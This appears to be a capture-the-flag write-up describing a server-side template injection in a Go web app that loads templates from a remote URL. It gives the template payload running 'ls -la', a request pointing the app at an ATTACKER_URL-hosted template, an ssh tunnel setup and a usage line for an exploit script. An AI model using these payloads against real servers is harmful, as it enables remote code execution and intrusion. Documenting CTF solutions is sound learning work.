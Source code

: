 # GO SSTI > RCE 

## Website 

<img src= "renderquest.PNG">

## Description

So, the functionality of the application seems to load and render templates either locally or remotely, depending on the ?use_remote={true/false} parameter. This lead me to want to check for SSTI vulnerability. I was able to set up a test.go template on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded and executed my template code, I recieved the contents of the / directory, revealing code execution Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python exploit.py http://target-server.com http://attacker-server.com/attacker-template.txt
```
## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)
